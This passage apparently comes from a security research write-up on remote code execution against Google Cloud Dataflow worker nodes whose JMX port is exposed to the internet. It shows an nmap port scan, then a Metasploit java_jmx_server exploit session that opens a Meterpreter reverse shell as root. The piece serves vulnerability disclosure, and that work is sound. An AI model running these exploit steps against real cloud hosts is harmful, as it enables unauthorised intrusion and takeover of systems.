 Once the job is started, it can be seen in the Dataflow jobs page. The VM nodes will also be visible in the Compute Engine console. By default, there is a public IP assigned and access to this is governed by the VPC firewall.
![](/images/rce-dataflow/dataflow-nodes.png)

### Attacking the Dataflow Node
First, let's confirm we do indeed have access to the JMX port on the worker node.

```
mike@enemabot:~$ nmap -p 5555 -Pn 35.226.73.31
Starting Nmap 7.80SVN ( https://nmap.org ) at 2021-03-14 05:36 UTC
Nmap scan report for 31.73.226.35.bc.googleusercontent.com (35.226.73.31)
Host is up (0.029s latency).

PORT     STATE SERVICE
5555/tcp open  freeciv

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

So I know the worker node is indeed accessible from the Internet. The next step is to exploit the exposed JMX port. The easiest way I found was to use Metasploit, which has an exploit just for this vulnerability and worked well.

```
msf6 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_jmx_server) > set RHOST 35.226.73.31
RHOST => 35.226.73.31
msf6 exploit(multi/misc/java_jmx_server) > set RPORT 5555
RPORT => 5555
msf6 exploit(multi/misc/java_jmx_server) > set TARGET 0
TARGET => 0
msf6 exploit(multi/misc/java_jmx_server) > exploit

[*] Started reverse TCP handler on xxx.xxx.xx.xx:4444 
[*] 35.226.73.31:5555 - Using URL: http://0.0.0.0:8080/TBcr4j3akne
[*] 35.226.73.31:5555 - Local IP: http://xxx.xxx.xx.xx:8080/TBcr4j3akne
[*] 35.226.73.31:5555 - Sending RMI Header...
[*] 35.226.73.31:5555 - Discovering the JMXRMI endpoint...
[+] 35.226.73.31:5555 - JMXRMI endpoint on localhost:5555
[*] 35.226.73.31:5555 - Proceeding with handshake...
[+] 35.226.73.31:5555 - Handshake with JMX MBean server on localhost:5555
[*] 35.226.73.31:5555 - Loading payload...
[*] 35.226.73.31:5555 - Replied to request for mlet
[*] 35.226.73.31:5555 - Replied to request for payload JAR
[*] 35.226.73.31:5555 - Executing payload...
[*] 35.226.73.31:5555 - Replied to request for payload JAR
[*] Sending stage (58108 bytes) to 35.226.73.31
[*] Meterpreter session 1 opened (xxx.xxx.xx.xx:4444 -> 35.226.73.31:54684) at 2021-03-14 05:40:31 +0000

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
```